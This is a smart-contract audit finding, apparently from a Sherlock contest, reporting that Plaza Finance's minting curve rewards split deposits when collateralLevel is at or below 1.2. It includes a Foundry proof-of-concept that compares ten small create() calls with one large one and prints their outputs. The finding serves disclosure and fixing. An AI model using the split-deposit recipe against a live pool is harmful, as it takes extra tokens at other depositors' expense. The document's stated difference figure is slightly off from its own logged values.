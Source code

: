 Rural Burgundy Hawk

Medium

# Plaza token creation can be gamed when collateral level is <= 1.2

### Summary

The Plaza protocol has created its own AMM curve for plaza token creation and redemption, centered around the so-called `collateralLevel` based on TVL and `bondETH` supply. When the collateral level is > `1.2` token prices are more predictable, however when it hits the `<= 1.2` level the curve becomes non-linear. 

https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L325-L341
https://github.com/sherlock-audit/2024-12-plaza-finance/blob/main/plaza-evm/src/Pool.sol#L491-L521

These non-linear calculations, however, allow users to gain an unfair advantage by splitting up their deposits into chunks, as with each deposit more plaza tokens are minted, compared to one big deposit. As this is not specified anywhere in the documentation or contest README, it means that some users will get more favorable results out of the protocol, compared to others.

### Root Cause

Non-linear AMM curve for plaza token creation when `collateralLevel <= 1.2` allows for users to mint more tokens with many smaller deposits, compared to single ones.

### Internal Pre-conditions

1. Have a Pool created with `collateralLevel <= 1.2`.

### External Pre-conditions

N/A

### Attack Path

1. Alice has 10 ETH worth of LP tokens and wants to create `bondETH` tokens.
2. She calculates the collateral level of the Pool and sees its `<= 1.2`.
3. Instead of doing one `create(...)` with 10 ETH, she splits it into 10 transactions.
4. Alice ends up with a more `bondETH` than if she did one big deposit.
5. Alice can later claim more `couponTokens` because she got more `bondETH`.

### Impact

Users who know that split deposits gain an unfair advantage over those who don't, as they will receive more plaza tokens. If the token is `bondETH` this directly transfers into more `couponTokens`. 

### PoC

The following is the set-up. The `collateralLevel is = 1.2`, `ethPrice = 3000 USD`

<details>

<summary>Set-Up</summary>

```solidity
function setUp() public {
        vm.startPrank(deployer);

        // Deploy mock tokens
        balancerPoolToken = new Token("Balancer Pool Token", "balancerPoolToken", false);
        asset1 = new Token("Test Token 1", "TT1", true);
        asset2 = new Token("Test Token 2", "TT2", true);
        address contractDeployer = address(new Deployer());
        address oracleFeeds = address(new OracleFeeds());

        address poolBeacon = address(new UpgradeableBeacon(address(new Pool()), governance));
        address bondBeacon = address(new UpgradeableBeacon(address(new BondToken()), governance));
        address levBeacon = address(new UpgradeableBeacon(address(new LeverageToken()), governance));
        address distributorBeacon = address(new UpgradeableBeacon(address(new Distributor()), governance));

        poolFactory = PoolFactory(
            Utils.deploy(
                address(new PoolFactory()),
                abi.encodeCall(
                    PoolFactory.initialize,
                    (governance, contractDeployer, oracleFeeds, poolBeacon, bondBeacon, levBeacon, distributorBeacon)
                )
            )
        );

        params.fee = 2000;
        params.reserveToken = address(balancerPoolToken);
        params.sharesPerToken = 2_500_000;
        params.distributionPeriod = 90 days;
        params.couponToken = address(new Token("USDC", "USDC", false));

        Token(params.couponToken).setDecimals(6);

        OracleFeeds(oracleFeeds).setPriceFeed(params.reserveToken, address(0), ethPriceFeed, 1 days);

        // Deploy the mock price feed
        mockPriceFeed = new MockPriceFeed();

        // Use vm.etch to deploy the mock contract at the specific address
        bytes memory bytecode = address(mockPriceFeed).code;
        vm.etch(ethPriceFeed, bytecode);

        // Set oracle price
        mockPriceFeed = MockPriceFeed(ethPriceFeed);
        mockPriceFeed.setMockPrice(3000 * int256(CHAINLINK_DECIMAL_PRECISION), uint8(CHAINLINK_DECIMAL));

        balancerPoolToken.mint(governance, 1000000 ether);
        vm.stopPrank();

        vm.startPrank(governance);
        poolFactory.grantRole(poolFactory.POOL_ROLE(), governance);

        balancerPoolToken.approve(address(poolFactory), 1000000 ether);

        _pool = Pool(poolFactory.createPool(params, 1000 ether, 25000 ether, 1000 ether, "", "", "", "", false));
        distributor = Distributor(poolFactory.distributors(address(_pool)));
        vm.stopPrank();

        vm.startPrank(deployer);

        // Deploy mock contracts
        vault = new MockBalancerVault(balancerPoolToken);
        predeposit = PreDeposit(
            Utils.deploy(
                address(new PreDeposit()),
                abi.encodeCall(
                    PreDeposit.initialize,
                    (
                        params,
                        address(poolFactory),
                        block.timestamp,
                        block.timestamp + 1 hours,
                        30 ether,
                        "Bond ETH",
                        "bondETH",
                        "Leveraged ETH",
                        "levETH"
                    )
                )
            )
        );
        router = new BalancerRouter(address(vault), address(balancerPoolToken));

        // Setup initial token balances
        asset1.mint(user, 1000 ether);
        asset2.mint(user, 1000 ether);

        asset1.mint(user2, 1000 ether);
        asset2.mint(user2, 1000 ether);

        vm.stopPrank();
    }
```
</details>

Below are two tests showing one big deposit and one split deposit:

```solidity
function testSplitCreate() public {
        deal(params.reserveToken, user, 100 ether);

        vm.startPrank(user);
        IERC20(params.reserveToken).approve(address(_pool), 100 ether);

        uint256 bondTokens = 0;

        bondTokens = _pool.create(Pool.TokenType.BOND, 10 ether, 0);
        bondTokens += _pool.create(Pool.TokenType.BOND, 10 ether, 0);
        bondTokens += _pool.create(Pool.TokenType.BOND, 10 ether, 0);
        bondTokens += _pool.create(Pool.TokenType.BOND, 10 ether, 0);
        bondTokens += _pool.create(Pool.TokenType.BOND, 10 ether, 0);
        bondTokens += _pool.create(Pool.TokenType.BOND, 10 ether, 0);
        bondTokens += _pool.create(Pool.TokenType.BOND, 10 ether, 0);
        bondTokens += _pool.create(Pool.TokenType.BOND, 10 ether, 0);
        bondTokens += _pool.create(Pool.TokenType.BOND, 10 ether, 0);
        bondTokens += _pool.create(Pool.TokenType.BOND, 10 ether, 0);

        console2.log("bondTokens", bondTokens);
    }

[PASS] testSplitCreate() (gas: 602253)
Logs:
  bondTokens 3159145339227552280494

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 10.07ms (2.77ms CPU time)

Ran 1 test suite in 162.18ms (10.07ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

```solidity
function testBigCreate() public {
        deal(params.reserveToken, user, 100 ether);

        vm.startPrank(user);
        IERC20(params.reserveToken).approve(address(_pool), 100 ether);

        uint256 bondTokens = 0;

        bondTokens = _pool.create(Pool.TokenType.BOND, 100 ether, 0);

        console2.log("bondTokens", bondTokens);
    }

[PASS] testBigCreate() (gas: 312447)
Logs:
  bondTokens 3125000000000000000000

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 9.34ms (1.86ms CPU time)

Ran 1 test suite in 160.54ms (9.34ms CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)
```

From the above, we can see `3159145339227552280494 - 3125000000000000000000 = 34145339227552350000 -> ~34 BondETH more`.

### Mitigation

As this is a consequence of using a non-linear AMM curve, the Plaza team should think of an incentive mechanism, which would either benefit users doing larger deposits, or worst case re-think the curve.